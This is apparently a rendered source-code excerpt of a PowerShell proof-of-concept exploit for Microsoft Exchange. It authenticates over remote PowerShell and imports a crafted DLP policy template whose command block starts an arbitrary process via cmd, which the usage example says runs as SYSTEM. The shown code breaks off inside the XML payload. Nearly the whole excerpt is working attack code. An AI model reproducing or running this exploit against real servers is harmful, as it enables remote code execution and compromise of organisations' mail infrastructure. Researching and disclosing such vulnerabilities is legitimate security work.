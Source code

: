 ```
# OriginatingServer           : DEAD01.exchangedemo.com
# ObjectState                 : Changed
#
# Example:
#
# PS C:\Users\researcher> .\poc.ps1 -server WIN-0K4AOM2JIN6.exchangedemo.com -usr harrym@exchangedemo.com -pwd user123### -cmd mspaint
# (+) targeting WIN-0K4AOM2JIN6.exchangedemo.com with harrym@exchangedemo.com:user123###
# (+) executed mspaint as SYSTEM!
# PS C:\Users\researcher>

param (
    [Parameter(Mandatory=$true)][string]$server,
    [Parameter(Mandatory=$true)][string]$usr,
    [Parameter(Mandatory=$true)][string]$pwd,
    [string]$cmd = "mspaint"
)

Function Get-RandomAlphanumericString {
    [CmdletBinding()]
    Param (
        [int] $length = 8
    )
    Process{
        Write-Output ( -join ((0x30..0x39) + ( 0x41..0x5A) + ( 0x61..0x7A) | Get-Random -Count $length  | % {[char]$_}) )
    }	
}

function Exploit-Exchange {
    Param (
        [string] $server,
        [string] $usr,
        [string] $pwd,
        [string] $cmd
    )
    "(+) targeting $server with ${usr}:$pwd"
    $securepwd = ConvertTo-SecureString $pwd -AsPlainText -Force
    $creds = New-Object System.Management.Automation.PSCredential -ArgumentList ($usr, $securepwd)
    $s = New-PSSession -ConfigurationName Microsoft.Exchange -ConnectionUri http://$server/PowerShell/ -Authentication Kerberos -Credential $creds

    $xml = @"
<dlpPolicyTemplates>
  <dlpPolicyTemplate id="F7C29AEC-A52D-4502-9670-141424A83FAB" mode="Audit" state="Enabled" version="15.0.2.0">
    <contentVersion>4</contentVersion>
    <publisherName>si</publisherName>
    <name>
      <localizedString lang="en"></localizedString>
    </name>
    <description>
      <localizedString lang="en"></localizedString>
    </description>
    <keywords></keywords>
    <ruleParameters></ruleParameters>
    <policyCommands>
      <commandBlock>
        <![CDATA[ `$i=New-object System.Diagnostics.ProcessStartInfo;`$i.UseShellExecute=`$true;`$i.FileName="cmd";`$i.Arguments="/c $cmd";`$r=New-Object System.Diagnostics.Process;`$r.StartInfo=`$i;`$r.Start() ]]>
      </commandBlock>
    </policyCommands>
```